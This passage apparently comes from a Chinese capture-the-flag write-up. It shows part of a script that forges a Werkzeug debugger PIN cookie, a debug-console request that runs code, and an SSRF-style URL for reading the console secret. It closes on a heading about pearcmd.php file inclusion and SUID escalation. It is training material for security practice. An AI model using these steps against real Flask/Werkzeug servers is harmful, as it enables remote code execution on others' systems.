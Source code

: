 ```python
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

def hash_pin(pin: str) -> str:
    return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]

print(cookie_name + "=" + f"{int(time.time())}|{hash_pin(rv)}")
```

运行脚本，得到cookie
 ![在这里插入图片描述](assets/4ef128f17c5c4174b601296e48f74c9c.png)

然后就是如何传参

```http
GET /?&__debugger__=yes&cmd=print(1)&frm=140324285712640&s=prj74Iraob1k5eMHiH37
```

这里我们要去获取frm和s的值

- frm如果没有报错信息的话值为0
- s的值可以直接访问`./console`，然后查看源码的SECRET值

由于这里试了半天没有报错信息，那么frm=0

访问一下console，获取s值

```
?url=http://localhost:1314/console&lolita[]=
```

![在这里插入图片描述](assets/3428ea982cab41aea67e7eca0dbb8b53.png)

### 4-复盘(pearcmd.php本地文件包含、SUID提权)
